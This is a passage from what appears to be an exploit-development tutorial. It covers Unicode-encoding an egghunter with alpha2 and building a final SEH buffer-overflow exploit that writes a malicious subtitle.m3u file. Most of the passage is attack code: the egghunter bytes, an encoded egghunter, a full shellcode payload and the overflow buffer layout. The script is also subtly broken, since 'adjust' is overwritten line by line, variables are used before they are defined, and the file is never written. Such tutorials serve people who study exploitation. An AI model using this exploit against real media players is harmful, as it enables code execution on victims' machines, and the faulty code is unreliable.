 The next step we will need to do is encode this egghunter into Unicode. To do this we take the code from above and paste it into a new file:

```python
#!/usr/bin/python
print("\x66\x81\xCA\xFF\x0F\x42\x52\x6A\x02\x58\xCD\x2E\x3C\x05\x5A\x74\xEF\xB8\x77\x30\x30\x74\x8B\xFA\xAF\x75\xEA\xAF\x75\xE7\xFF\xE7")
```

Run that script and redirect the output to a file called egghunter.raw. Then do:

gcc alpha2.c -o alpha2

and do:

./alpha2 --unicode --uppercase eax < egghunter.raw > egghunter

The send egghunter over to your host PC and add it into the exploit.

Finally we add the tag to our exploit, making the final exploit look like this (and yes i forgot to take out junk2 in the last one in case your wondering why this one looks a little different ;) ):

```python
#!/usr/bin/python
junk  = "\x41" \* (4078-(len(tag + shellcode))
nseh = "\x61\x62"
seh = "\xeb\x46" \* 2
adjust = "\x53" # PUSH EBX
adjust = "\x62" # NOP padding to absorb the \x00's that will be added
             # after the \x53 instruction in memory
adjust = "\x58" # POP EAX  to make eax point to the beginning of our shellcode.
adjust = "\x62" # NOP padding
adjust = "\x50" # PUSH EAX to push eax to the stack...
adjust = "\x62" # NOP padding
adjust = "\xc3" # RETN to go to the beginning of the shellcode....
buffer = "\x62" \* 12
tag = "w00tw00t"
shellcode = (
"\xdb\xc2\xd9\x74\x24\xf4\xbf\xe6\xcb\xb6\xa3\x5d\x33\xc9\xb1"
"\x4b\x31\x7d\x19\x83\xc5\x04\x03\x7d\x15\x04\x3e\x4a\x4b\x41"
"\xc1\xb3\x8c\x31\x4b\x56\xbd\x63\x2f\x12\xec\xb3\x3b\x76\x1d"
"\x38\x69\x63\x96\x4c\xa6\x84\x1f\xfa\x90\xab\xa0\xcb\x1c\x67"
"\x62\x4a\xe1\x7a\xb7\xac\xd8\xb4\xca\xad\x1d\xa8\x25\xff\xf6"
"\xa6\x94\xef\x73\xfa\x24\x0e\x54\x70\x14\x68\xd1\x47\xe1\xc2"
"\xd8\x97\x5a\x59\x92\x0f\xd0\x05\x03\x31\x35\x56\x7f\x78\x32"
"\xac\x0b\x7b\x92\xfd\xf4\x4d\xda\x51\xcb\x61\xd7\xa8\x0b\x45"
"\x08\xdf\x67\xb5\xb5\xe7\xb3\xc7\x61\x62\x26\x6f\xe1\xd4\x82"
"\x91\x26\x82\x41\x9d\x83\xc1\x0e\x82\x12\x06\x25\xbe\x9f\xa9"
"\xea\x36\xdb\x8d\x2e\x12\xbf\xac\x77\xfe\x6e\xd1\x68\xa6\xcf"
"\x77\xe2\x45\x1b\x01\xa9\x01\xe8\x3f\x52\xd2\x66\x48\x21\xe0"
"\x29\xe2\xad\x48\xa1\x2c\x29\xae\x98\x88\xa5\x51\x23\xe8\xec"
"\x95\x77\xb8\x86\x3c\xf8\x53\x57\xc0\x2d\xf3\x07\x6e\x9e\xb3"
"\xf7\xce\x4e\x5b\x12\xc1\xb1\x7b\x1d\x0b\xda\x4a\x39\xe7\x8d"
"\xae\xbd\x19\x12\x27\x5b\x73\xba\x61\xf3\xec\x78\x56\xcc\x8b"
"\x83\xbd\x60\x03\x14\x8a\x6e\x93\x1b\x0b\xa5\xb7\xb0\xa4\x2e"
"\x4c\xdb\x71\x4e\x53\xf6\xd2\x07\xc4\x8c\xb2\x6a\x74\x90\x9f"
"\x1f\x76\x04\x1b\xb6\x21\xb0\x21\xef\x06\x1f\xda\xda\x1c\x96"
"\x4e\xa5\x4a\xd7\x9e\x25\x8b\x81\xf4\x25\xe3\x75\xac\x75\x16"
"\x7a\x79\xea\x8b\xef\x81\x5b\x7f\xa7\xe9\x61\xa6\x8f\xb6\x9a"
"\x8d\x11\x8b\x4c\xe8\x97\xfd\xfa\x18\x54"
)
egghunter =
(
"PPYAIAIAIAIAQATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBC6SQGZKOLO0B0RQZOSR88MNNOLKUPZSDJO6XT7NPNP3DTKKJ6OD5JJ6OBUK7KOYWLJA"
)
exploit = junk + tag + shellcode + nseh + seh + adjust + buffer + egghunter
handler = open ("subtitle.m3u", "w")
```